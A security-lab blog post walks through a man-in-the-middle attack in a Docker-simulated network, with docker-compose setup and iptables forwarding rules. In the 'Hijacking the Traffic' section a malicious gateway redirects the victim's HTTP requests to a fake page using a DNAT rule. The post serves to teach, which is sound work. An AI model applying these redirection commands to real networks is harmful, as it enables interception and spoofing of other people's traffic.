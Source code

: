 ```yaml
---
layout: post
title: Malicious Gateway
category: web_security
author: 'reo'
tags: javascript seclab iptables man-in-the-middle
mathjax: 
---
```


This post describes how to exploit control of the gateway a target uses in order to monitor traffic.
In this scenario, Mallory is the default gateway allowing the target Alice to connect to the external network.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

As we've done previously, we use [docker-compose](https://docs.docker.com/compose/)
to simulate the network.

```yaml
version: '3'

services:
  alice:
    image: # private image
    container_name: alice
    networks:
      internal:
        ipv4_address: 10.0.0.2
    cap_add:
      - NET_ADMIN

  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      cap_add:
        - NET_ADMIN
        - SYS_ADMIN
      volumes:
          - .:/shared
      networks:
        internal:
          ipv4_address: 10.0.0.3
        external:
          ipv4_address: 10.0.1.3
  
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:mallory

networks:
  internal:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
  external:
    driver: bridge
    ipam:
       config:
        - subnet: 10.0.1.0/24
```

For the purpose of demonstration, Alice is configured such that Mallory is the default
gateway

```bash
#!/usr/bin/env bash

echo 'nameserver 8.8.8.8' > /etc/resolv.conf
ip route del default
ip route add default via 10.0.0.3
```

and is set to simply send requests to a server repeatedly.

```javascript
const request = require('request');

const url = "http://welcome.seclab.space/";

const TIMEOUT = 5000

var do_request = function(){
    request.get({url: url, timeout: TIMEOUT}, function (err, response, body) {
        if (err) return console.log(err);
        if (response.statusCode != 200) return console.log("[" + response.statusCode + "]");
        console.log("[" + response.statusCode + "] " + body);
    });
};
```

We can start Alice with 
```
$ docker-compose up alice
```

since her gateway (mallory) is not up, Alice times out on her requests

```
alice        | { Error: ETIMEDOUT
alice        |     at Timeout.<anonymous> (/home/nodejs/app/node_modules/request/request.js:848:19)
alice        |     at ontimeout (timers.js:436:11)
alice        |     at tryOnTimeout (timers.js:300:5)
alice        |     at listOnTimeout (timers.js:263:5)
alice        |     at Timer.processTimers (timers.js:223:10) code: 'ETIMEDOUT', connect: true }
```

<br>

***

## Routing the Traffic

***

In a separate terminal, we first set up Mallory to route traffic normally. To run a command under Mallory we use

```
$ docker exec -it mallory bash
```

Commands which start with `#` are run within the container. We now do the following
using [iptables](https://linux.die.net/man/8/iptables):

```
# iptables -F
# iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
# iptables -A FORWARD -i eth0 -o eth1 -m state --state RELATED,ESTABLISHED -j ACCEPT
# iptables -A FORWARD -i eth1 -o eth0 -j ACCEPT
```

where the options used are:

- `-F` flushes the selected chain (deletes the rules)
- `-t` specifies the packet matching table to operate on
  - `nat` built-ins are `PREROUTING`, `OUTPUT`, and `POSTROUTING`
- `-A` appends rules to the end of the selected chain
- `-i` name of an interface via a packet is received
- `-o` name of an interface via a packet will be sent
- `-p` the protocol of the rule/packet
- `-m` allows use of modules for example the `state` module to filter based on state
- `-j` "jump" specifies what to do if a packet matches the rule or "target"
  - `ACCEPT` simply let the packet though
  - `DNAT` specifies the packet's destination should be changed to the one
    specified by `--to-destination`
  - `MASQUERADE` allows other connected machines to reach the internet
    even though they may not have an assigned public IP. More info
    can be found [here](https://www.frozentux.net/iptables-tutorial/chunkyhtml/x4422.html)

Alice should now be printing

```
alice        | [200] Welcome to SecLab
```

<br>

***

## Hijacking the Traffic

***

As Mallory, we can create a site and host local server:

```
# cd shared
# echo -n "Welcome to DarkLab" > index.html
# python2.7 -m SimpleHTTPServer 8080
```

Open up another shell for Mallory and hijack the traffic

```
# iptables -t nat -A PREROUTING -p tcp -i eth1 -d 142.1.97.172 --dport 80 -j DNAT --to-destination 10.0.0.3:8080
```

Alice is now receiving the manufactured site and we have established a Man-in-the-Middle

```
alice        | [200] Welcome to DarkLab
```

Some documentation used includes
- [TLDP](https://tldp.org/HOWTO/IP-Masquerade-HOWTO/ipmasq-background2.1.html)
- [iptables](https://linux.die.net/man/8/iptables)

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

